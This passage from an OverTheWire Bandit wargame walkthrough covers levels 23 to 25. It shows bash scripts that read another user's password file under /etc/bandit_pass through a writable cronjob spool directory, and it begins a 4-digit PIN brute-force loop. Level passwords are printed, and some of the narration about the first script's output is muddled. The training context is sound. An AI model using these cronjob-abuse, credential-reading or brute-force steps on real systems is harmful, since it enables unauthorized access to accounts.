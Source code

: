 I created this bash script in a tmp folder. (similar to one from a previous level)

```bash
myname=bandit24
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
cat /tmp/$mytarget
```

Instead of running the script with the current user I ran it as if I was bandit24 to get the flag.

```console
bandit23@bandit:/tmp/kyle$ ./script.sh
Copying passwordfile /etc/bandit_pass/bandit24 to /tmp/ee4ee1703b083edac9f8183e4ae70293
./script.sh: line 8: /tmp/ee4ee1703b083edac9f8183e4ae70293: Permission denied
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

**Side Note**
I looked at other sources for how they got the flag and noticed that information in the *cronjob_bandit24.sh* script can be used to execute a cmd. I used the cmd shown below and updating privileges using `chmod 777 [script filename]`.

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/[temp dict name]/password.txt
```

Since the original cronjob executes minute by minute, if the script is executed, and you wait a minute the *password.txt* file will show up in the tmp folder, if you cat into that file from the var/spool directory you will get the flag.

**Flag: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**

---

## Level 24 to 25

A daemon is listening on **port 30002** and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pin code. There is no way to retrieve the pin code except by going through all 10000 combinations, called brute-forcing.

### Approach

I went ahead and created a new script that looped through a 4-digit combination from 0000 to 9999 and each time it would echo the password from the previous file and that iterations combo to the screen.

```bash
#!/bin/bash

password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

for i in {0000..9999}
do
    echo $password $i
done
```
